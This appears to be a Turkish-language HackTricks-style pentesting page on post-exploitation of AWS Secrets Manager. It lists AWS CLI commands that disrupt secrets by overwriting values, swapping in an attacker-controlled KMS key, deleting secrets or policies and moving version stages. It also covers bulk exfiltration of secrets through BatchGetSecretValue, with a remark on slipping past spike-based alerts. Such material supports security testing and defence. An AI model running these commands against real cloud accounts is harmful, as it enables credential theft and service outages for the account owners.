 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Daha fazla bilgi için bakınız:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Secrets Okuma

The **Secrets kendileri hassas bilgilerdir**, nasıl okunacağını öğrenmek için [privesc sayfasına bakın](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md).

### DoS: Secret Değerini Değiştirme

Secret'in değerini değiştirerek, **o değere bağımlı tüm sistemleri DoS edebilirsiniz.**

> [!WARNING]
> Önceki değerlerin de saklandığını unutmayın, bu yüzden önceki değere geri dönmek kolaydır.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Eğer saldırganın secretsmanager:UpdateSecret izni varsa, secret'i saldırganın sahip olduğu bir KMS key kullanacak şekilde yapılandırabilir. Bu anahtar başlangıçta herkesin erişip kullanabilmesi için ayarlanmıştır, bu yüzden secret'i yeni anahtar ile güncellemek mümkündür. Anahtara erişilemiyor olsaydı, secret güncellenemezdi.

Secret için anahtarı değiştirdikten sonra saldırgan, anahtarın yapılandırmasını yalnızca kendisinin erişebileceği şekilde değiştirir. Böylece secret'in sonraki versiyonları yeni anahtarla şifrelenecek ve anahtara erişim olmadığından secret'i almak imkânsız hale gelir.

Önemli bir nokta: erişilemezlik yalnızca secret içeriği değiştikten sonra, yani sonraki versiyonlarda meydana gelir; çünkü mevcut versiyon hala orijinal KMS key ile şifrelenmiştir.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Secret Silme

Bir secret'i silmek için gereken minimum gün sayısı 7'dir
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Bir secret'i geri yüklemek mümkündür; bu, silinmek üzere planlanmış secret'lerin geri yüklenmesine olanak tanır, çünkü secret'ler için minimum silme süresi 7 gün ve maksimum 30 gündür. secretsmanager:GetSecretValue izni ile birlikte, bunların içeriklerini almayı mümkün kılar.

Silinme sürecinde olan bir secret'i kurtarmak için aşağıdaki komutu kullanabilirsiniz:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Bu eylem, bir secret'e kimlerin erişebileceğini kontrol eden resource policy'yi silmeye izin verir. Resource policy, erişimi belirli bir kullanıcı grubuna izin verecek şekilde yapılandırıldıysa bu bir DoS'a yol açabilir.

Resource policy'yi silmek için:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Bir secret'in durumları, secret sürümlerini yönetmek için kullanılır. AWSCURRENT uygulamaların kullandığı aktif sürümü işaretler, AWSPREVIOUS gerektiğinde geri dönebileceğiniz önceki sürümü saklar ve AWSPENDING yeni bir sürümü şu anki yapmadan önce hazırlamak ve doğrulamak için rotasyon sürecinde kullanılır.

Uygulamalar her zaman AWSCURRENT etiketine sahip sürümü okur. Birisi bu etiketi yanlış bir sürüme taşırsa, uygulamalar geçersiz kimlik bilgileri kullanır ve başarısız olabilir.

AWSPREVIOUS otomatik olarak kullanılmaz. Ancak AWSCURRENT kaldırılır veya yanlış atanırsa, her şeyin hâlâ önceki sürümle çalıştığı izlenimi oluşabilir.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Secrets Manager BatchGetSecretValue API'sını suistimal ederek tek bir istekte en fazla 20 secret alabilirsiniz. Bu, her secret için GetSecretValue çağrısını tekrarlamaya kıyasla API çağrısı sayısını önemli ölçüde azaltır. Eğer filtreler kullanılıyorsa (tags/name), ListSecrets izni de gereklidir. CloudTrail yine de batch içinde alınan her secret için bir GetSecretValue olayı kaydeder.

Gerekli izinler
- secretsmanager:BatchGetSecretValue
- her hedef secret için secretsmanager:GetSecretValue
- --filters kullanılıyorsa secretsmanager:ListSecrets
- secret'lerde kullanılan CMK'ler üzerinde kms:Decrypt (aws/secretsmanager kullanılmıyorsa)

> [!WARNING]
> `secretsmanager:BatchGetSecretValue` izninin secretleri almak için tek başına yeterli olmadığını unutmayın; almak istediğiniz her secret için ayrıca `secretsmanager:GetSecretValue` iznine ihtiyacınız vardır.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Filtrelere göre Exfiltrate (tag key/value veya name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Kısmi başarısızlıkların ele alınması
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Etkiler
- Daha az API çağrısıyla birçok sırın hızlı “smash-and-grab” ile alınması; bu, GetSecretValue dalgalanmalarına göre ayarlanmış uyarıları atlatabilir.
- CloudTrail günlükleri, toplu işlemle alınan her sır için hâlâ bir GetSecretValue olayı içerir.
